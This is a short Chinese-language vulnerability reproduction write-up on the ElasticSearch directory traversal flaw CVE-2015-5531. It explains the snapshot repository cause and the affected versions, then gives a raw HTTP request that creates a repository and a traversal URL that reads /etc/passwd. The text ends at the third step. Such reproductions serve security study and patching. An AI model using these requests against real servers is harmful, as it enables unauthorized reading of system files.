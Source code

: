 
![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDE0dV1xEyw9ZBj4bSUocCOKiaiaBKtdNKJDpjibP2dAdXPdaY6w5rIsMaxoiaSDXaTzo0UovkwpsuLrA/640?wx_fmt=png)

**ElasticSearch 目录穿越漏洞（CVE-2015-5531）**

**漏洞原理**

elasticsearch 1.5.1 及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件 elasticsearch.yml 中必须存在 path.repo，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能。

**影响版本**

ElasticSearch 1.6.1 以下  

**漏洞复现**

先说说 elasticsearch 的备份与快照功能

漏洞利用需要涉及到 elasticsearch 的备份功能，elasticsearch 提供了一套强大的 API，使得 elasticsearch 备份非常简单

要实现备份功能。前提是 elasticsearch 进程对备份目录有写入权限，一般来说我们可以利用 / tmp 或者 elasticsearch 自身的安装目录，默认情况下这两个目录 elasticsearch 进程都是有写入权限的

1. 新建一个仓库

```
PUT /_snapshot/test2 HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108




{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata" 
    }
}
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDE0dV1xEyw9ZBj4bSUocCOgibBAF1vEn39xV0Koia2hKXOqOAUYcPZJB3dSuc7hSxgz6qWS2swA7sQ/640?wx_fmt=png)

2. 创建一个快照

```
http://your-ip:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDE0dV1xEyw9ZBj4bSUocCOpXgTkibJDGLmEzKAdLsdl9kTf4P8pTaHnouw5L1ZteVh2dHqAdUzSjA/640?wx_fmt=png)

3. 目录穿越读取任意文件
